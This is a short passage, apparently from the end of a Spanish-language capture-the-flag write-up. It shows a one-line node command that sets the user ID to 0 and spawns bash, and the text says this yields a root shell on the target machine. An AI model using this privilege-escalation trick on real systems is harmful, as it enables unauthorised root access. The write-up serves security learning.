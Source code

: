 ```bash
/usr/bin/yournode -e 'process.setuid(0); require("child_process").spawn("/bin/bash", {stdio: [0, 1, 2]})'
```

Tras ejecutarlo, veremos que nos otorga una shell como **root**, completando la explotación de la máquina.

![](<../assets/images/posts/2025-23-16-tokenofhate/Pasted image 20250315211343.png>)